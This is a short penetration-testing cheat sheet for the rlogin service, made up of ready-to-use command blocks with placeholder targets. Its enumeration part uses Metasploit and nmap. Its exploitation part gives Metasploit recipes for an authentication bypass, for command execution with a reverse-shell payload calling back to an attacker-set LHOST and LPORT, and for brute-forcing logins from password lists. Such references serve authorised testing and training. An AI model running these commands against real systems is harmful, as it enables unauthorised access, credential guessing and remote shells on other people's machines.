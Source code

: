 # Rlogin

## Enumeration

### Metasploit

##### rlogin_version
```bash
use auxiliary/scanner/rlogin/rlogin_version
set RHOSTS [IP]
set RPORT 513
run
```

### Nmap

##### nmap (RLogin service detection)
```bash
nmap -p 513 --script=rlogin-banner [IP]
```

##### nmap (RLogin enumeration)
```bash
nmap -p 513 --script=rlogin-enum [IP]
```

### rlogin

##### rlogin (Connect to RLogin)
```bash
rlogin [IP] -l [USER]
```

##### rlogin (Verbose connection attempt)
```bash
rlogin -v [IP] -l [USER]
```


---
---


## Exploitation

### Metasploit

##### rlogin_auth_bypass
```bash
use exploit/unix/rlogin/rlogin_auth_bypass
set RHOSTS [IP]
set RPORT 513
set USERNAME [username]
set PASSWORD [password]
run
```

##### rlogin_command_exec
```bash
use exploit/unix/rlogin/rlogin_command_exec
set RHOSTS [IP]
set RPORT 513
set USERNAME [username]
set PASSWORD [password]
set PAYLOAD unix/reverse
set LHOST [IP]
set LPORT [port]
run
```

##### rlogin_brute
```bash
use auxiliary/scanner/rlogin/rlogin_brute
set RHOSTS [IP]
set RPORT 513
set USER_FILE [userlist.txt]
set PASS_FILE [passwordlist.txt]
run
```